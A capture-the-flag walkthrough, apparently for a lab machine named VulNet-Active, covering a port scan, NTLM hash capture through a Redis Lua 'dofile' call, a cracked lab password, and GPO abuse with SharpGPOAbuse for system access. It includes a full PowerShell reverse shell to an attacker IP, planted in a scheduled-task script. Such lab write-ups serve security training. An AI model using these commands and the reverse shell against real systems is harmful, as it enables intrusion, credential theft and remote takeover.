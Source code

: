 ## VulNet-Active

### Nmap

```bash
# Nmap 7.91 scan initiated Sun Aug  1 15:06:30 2021 as: nmap -sT -sC -sV -vvv -p- -T4 -Pn -oA nmapscan 10.10.188.12
Nmap scan report for 10.10.188.12
Host is up, received user-set (0.055s latency).
Scanned at 2021-08-01 15:06:30 CEST for 187s
Not shown: 65523 filtered ports
Reason: 65523 no-responses
PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack
6379/tcp  open  redis         syn-ack Redis key-value store 2.8.2402
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
49665/tcp open  msrpc         syn-ack Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack Microsoft Windows RPC
49675/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49676/tcp open  msrpc         syn-ack Microsoft Windows RPC
49695/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Redis

the redis-cli shows the user

10.10.188.12:6379> CONFIG GET *
	
	103) "dir"
	104) "C:\\Users\\enterprise-security\\Downloads\\Redis-x64-2.8.2402"

Exploit this redis older versions we can execute the LUA scripts by using the EVAL cmd. dofile() is a command that can be used to enumerate files and directories.

https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#lua-sandbox-bypass

fire up the responder
	
	responder -I tun0 -i 10.10.30.238

10.10.188.12:6379> EVAL "dofile("//10.x.x.11/hello")" 0 then run this on redis-cli got the enterprise-security user's hash.

crackthehash myself im using john 

	enterprise-security:sand_0873959498

this are smb creds and in smb we got the ps1 file and this is schedule task ig let me change the script with my reverse shell.

the reverse shell 

```ps
$client = New-Object System.Net.Sockets.TCPClient("10.9.3.94a",9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close() 

``` 

upload this on smb and wait for the shell!!!!!!!

## Privesc

Bloodhound The user ENTERPRISE-SECURITY-VULNNET.LOCAL has generic write access to the GPO SECURITY-POL-VN-VULNNET.LOCAL. 

**Generic Write Access**

GenericWrite - update object's attributes (i.e logon script) WriteOwner - change object owner to attacker controlled user take over the object. WriteDACL - modify object's ACEs and give attacker full control right over the object. AllExtendedRights - ability to add user to a group or reset password. 

## Exploit Group Policy Objects GPO


.\SharpGPOAbuse.exe --AddComputerTask --TaskName "Install Updates" --Author NT AUTHORITY\SYSTEM --Command "cmd.exe" --Arguments "/c \\dc-2\software\pivot.exe" --GPOName "PowerShell Logging"

gpupdate /force

now check the smbclient c$ share

you got THE system!!!!!


## References

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#exploit-group-policy-objects-gpo

https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse#sharpgpoabuse-abuse-gpo

https://www.adamcouch.co.uk/gpo-abuse-edit-permissions-misconfiguration/

